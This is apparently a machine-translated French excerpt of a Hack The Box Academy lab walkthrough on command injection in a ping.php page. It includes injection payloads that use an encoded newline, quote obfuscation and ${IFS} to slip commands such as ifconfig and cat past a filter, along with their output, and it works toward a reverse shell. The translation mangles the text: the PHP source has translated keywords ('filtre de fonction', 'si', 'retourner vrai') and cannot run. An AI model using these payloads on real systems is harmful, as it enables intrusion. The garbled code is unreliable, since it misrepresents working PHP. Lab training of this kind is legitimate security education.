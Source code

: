 ```
dsgsec@htb[/htb]$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'fconfig"

PING 127.0.0.1 (127.0.0.1) 56(84) octets de données.
64 octets à partir de 127.0.0.1 : icmp_seq=1 ttl=64 time=0,048 ms

--- 127.0.0.1 statistiques de ping ---
1 paquets transmis, 1 reçu, 0% de perte de paquets, temps 0ms
rtt min/moy/max/mdev = 0,048/0,048/0,048/0,000 ms

<SNIP>

ens160 : flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
         inet 10.129.203.101 masque de réseau 255.255.0.0 diffusion 10.129.255.255
         inet6 dead:beef::250:56ff:feb9:67a5 prefixlen 64 scopeid 0x0<global>
         inet6 fe80::250:56ff:feb9:67a5 prefixlen 64 scopeid 0x20<lien>
         ether 00:50:56:b9:67:a5 txqueuelen 1000 (Ethernet)
         Paquets RX 10055 octets 1041358 (1,0 Mo)
         Erreurs de réception 0 abandonnées 0 dépassements 0 trame 0
         Paquets TX 2316 octets 4030180 (4,0 Mo)
         Erreurs TX 0 abandonnées 0 dépassements 0 porteuse 0 collisions 0

ens192 : flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
         inet 172.16.8.120 masque de réseau 255.255.254.0 diffusion 172.16.255.255
         inet6 fe80::250:56ff:feb9:a62d prefixlen 64 scopeid 0x20<lien>
         ether 00:50:56:b9:a6:2d txqueuelen 1000 (Ethernet)
         Paquets RX 21515 octets 1890242 (1,8 Mo)
         Erreurs de réception 0 abandonnées 0 dépassements 0 trame 0
         Paquets TX 15 octets 1146 (1,1 Ko)
         Erreurs TX 0 abandonnées 0 dépassements 0 porteuse 0 collisions 0

```

Notre prochain défi est de trouver un moyen d'obtenir une coque inversée. Nous pouvons exécuter des commandes uniques, mais tout ce qui contient un espace ne fonctionne pas. De retour à la section [Bypassing Space Filters](https://academy.hackthebox.com/module/109/section/1036) du module `Command Injections` , nous rappelons que nous pouvons utiliser l'environnement Linux `($IFS) Variable` pour contourner les restrictions d'espace. Nous pouvons combiner cela avec le contournement des caractères de nouvelle ligne et commencer à énumérer les moyens d'obtenir un shell inversé. Pour nous aider, examinons le fichier `ping.php` pour comprendre ce qui est filtré afin de limiter la quantité de conjectures nécessaires.

Revenir à Burp et faire la requête `GET /ping.php?ip=127.0.0.1%0a'c'at${IFS}ping.php`, ou similaire, nous donne le contenu du fichier, et nous pouvons travailler à battre le filtre et trouver un moyen d'établir une coque inversée.

Code : php

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$sortie = '';

filtre de fonction($str)
{
   $opérateurs = ['&', '|', ';', '\\', '/', ' '] ;
   foreach ($opérateurs en tant que $opérateur) {
     si (strpos($str, $opérateur)) {
       retourner vrai ;
     }
   }
```